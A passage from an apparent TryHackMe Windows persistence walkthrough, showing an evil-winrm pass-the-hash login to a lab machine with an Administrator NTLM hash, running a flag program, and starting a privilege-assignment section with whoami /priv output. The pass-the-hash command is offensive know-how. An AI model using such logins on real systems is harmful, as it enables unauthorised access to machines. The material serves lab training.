 ```Bash
root@ip-10-10-72-227:~# evil-winrm -i 10.10.41.253 -u Administrator -H f3118544a831e728781d780cfdb9c1fa

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
18. `C:\flags\flag1.exe` from the command line in our active WinRM session to run the **flag1.exe** program, which ended up displaying this task's flag onto our terminal
```Bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> C:\flags\flag1.exe
THM{FLAG_BACKED_UP!}
```


#
## Assigning Specific Privileges

1. Start this room's machine and TryHackMe's AttackBox
2. `PowerShell` from the compromised Windows machine to open up PowerShell on the compromised Windows machine
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
3. `cd \` from the compromised Windows machine to change to the their filesystem's root directory to ensure that we'll be executing the following commands from starting from there
```PowerShell
PS C:\Users\Administrator> cd \
```
4. `whoami` from the compromised Windows machine to display who we're running as onto our terminal, which showed us that we were running as administrator
```PowerShell
PS C:\> whoami
wpersistence\administrator
```
5. `whoami /priv` from the compromised Windows machine to display all the privileges that the Administrator has on the compromised Windows machine, along with their descriptions, onto our terminal
```PowerShell
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
```